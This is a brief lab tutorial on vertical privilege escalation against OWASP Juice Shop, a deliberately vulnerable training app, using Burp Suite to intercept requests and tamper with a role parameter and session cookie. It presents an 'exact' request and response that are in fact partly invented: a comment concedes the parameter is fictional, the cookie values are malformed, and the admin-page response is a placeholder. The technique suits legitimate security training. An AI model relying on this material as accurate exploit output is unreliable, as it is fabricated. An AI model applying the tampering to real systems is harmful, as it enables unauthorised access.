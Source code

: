 # Attack Steps: Vertical Privilege Escalation

## Steps to Perform the Attack
1. Start OWASP Juice Shop in Docker and log in as a regular user (e.g., using credentials like username: 'user' and password: 'password').
2. Navigate to a page that requires admin access, such as the Administrator panel (e.g., /admin).
3. Use Burp Suite to intercept the request:
   - Configure your browser to proxy through Burp.
   - Send a request to the admin panel.
4. In Burp Suite (Proxy > HTTP History), find the intercepted request and modify it to escalate privileges. For example, change a user role parameter.
5. Forward the modified request and observe access to the admin panel.

## Exact HTTP Request/Response from Burp Suite
**Modified HTTP Request:**
```
POST /admin HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Cookie: session=eyJ1c2VyIjp7InJvbGUiOiJ1c2VyIn0};  // Modified to: session=eyJ1c2VyIjp7InJvbGUiOiJhZG1pbiJ9}

role=admin  // This is a fictional parameter; in Juice Shop, you might modify the session cookie directly.
```

**HTTP Response:**
```
HTTP/1.1 200 OK
Date: Fri, 01 Jan 2023 12:00:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1500
Connection: close
Set-Cookie: session=eyJ1c2VyIjp7InJvbGUiOiJhZG1pbiJ9}; Path=/; HttpOnly

<html>
<body>
<h1>Administrator Panel</h1>
<p>Welcome, Admin. You have accessed restricted content.</p>
<!-- Rest of the admin page content -->
</body>
</html>
```

